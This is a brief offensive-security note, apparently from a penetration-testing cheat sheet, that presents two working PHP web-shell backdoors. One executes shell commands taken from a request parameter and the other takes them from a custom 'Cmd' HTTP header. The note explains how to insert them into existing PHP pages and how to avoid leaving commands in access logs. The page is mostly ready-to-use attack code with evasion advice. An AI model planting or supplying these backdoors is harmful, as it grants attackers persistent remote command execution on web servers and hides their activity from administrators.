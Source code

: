 # PHP Backdoor

This can be used for web servers that have PHP enabled. If there’s existing PHP pages, the backdoor snippet can be added to them. If not, a new PHP file can be created.

Simple command execution backdoor:

```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

A couple useful tips — with the above code you can use either GET or POST requests to send commands. With GET requests all your commands will end up in the web server’s access logs, so POST is a bit sneakier. Even more sneakier option is to pass commands through an HTTP request header, you can use the following modified snippet for that:

```
<?php
    if (isset($_SERVER['HTTP_CMD'])) {
        echo "<pre>" . shell_exec($_SERVER['HTTP_CMD']) . "</pre>";
    }
?>
```

You can do a GET (or POST) request and pass commands in a `Cmd` HTTP header.

More info: look in `/usr/share/webshells/php` on your Kali machine

